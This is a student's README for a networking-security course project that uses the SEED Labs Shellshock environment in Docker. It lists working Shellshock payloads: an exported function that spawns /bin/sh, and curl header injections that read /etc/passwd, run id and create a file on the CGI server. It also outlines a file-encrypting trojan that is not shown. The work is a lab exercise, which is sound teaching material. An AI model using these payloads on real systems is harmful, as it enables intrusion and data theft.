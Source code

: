 # COMP8677-Networking-and-Data-Security-Final-Project 

## Work Description

Shellshock Attack with Reverse Shell <br/>
Local Client and Server using Socket Programming to launch attack <br/>
Mini Implementation of Trojan Horse to encrpt user all files and decrypting it with key<br/>

## prerequisite

SEED Lab <br/>
Pyhton3 Install in Virtual machine<br/>
Cryptography module for encryption module <br/>
fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. Check for DNS settings for shellshock Attack using command ```less /etc/hosts``` 
2. ------Container Setup---- <br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```<br/>
See if any image is there -> ```docker image list``` <br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```<br/>
3. --------Build the container image---------<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files<br/>
4.Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```
5. --------Web Server and CGI-------- <br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.
6. run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell <br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```
8. -------Passing Data----<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> You can verify in victims terminal by running ```cat /etc/passwd```
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> To check for folder in victims  run ```ls/tmp``` <br/>
10. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 
Close lab close container  by ```docker-compose down```

*Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/)<br/>.
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders<br/>.
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me.

## Author

Fahad Patel - 110085698

